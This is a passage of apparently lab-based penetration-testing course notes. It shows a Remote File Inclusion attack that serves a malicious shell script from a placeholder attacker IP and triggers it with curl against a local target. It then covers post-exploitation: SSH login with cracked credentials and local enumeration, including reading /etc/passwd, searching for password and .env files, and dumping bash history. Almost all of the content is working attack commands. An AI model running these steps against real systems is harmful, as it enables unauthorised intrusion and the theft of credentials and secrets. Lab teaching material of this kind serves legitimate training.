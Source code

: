 ### 3.6 Remote File Inclusion (RFI) (Cours 08)

```bash
# Host a malicious file on attacker machine
cat > malicious.sh <<'EOF'
#!/bin/bash
whoami
id
hostname
cat /etc/passwd
EOF

# Start a web server
python3 -m http.server 8000

# Execute via RFI
curl -s "http://localhost:8082/api/files/include?url=http://<attacker-ip>:8000/malicious.sh"
```

---

## 🔓 Phase 4: Post-Exploitation (Cours 09)

### 4.1 Initial Access via SSH

```bash
# Connect with cracked credentials
ssh -p 2222 admin@localhost
# Password: Admin123!

# You're now on the SSH server
```

### 4.2 Local Enumeration

```bash
# On the SSH server:

# Check privileges
whoami
id
sudo -l

# System information
hostname
uname -a
cat /etc/os-release

# Network information
ifconfig
ip addr
ip route
netstat -antup

# Find sensitive files
find / -name "*password*" 2>/dev/null
find / -name "*.env" 2>/dev/null
find /home -type f 2>/dev/null

# Check bash history
cat ~/.bash_history
cat /home/admin/.bash_history

# Look for secrets
```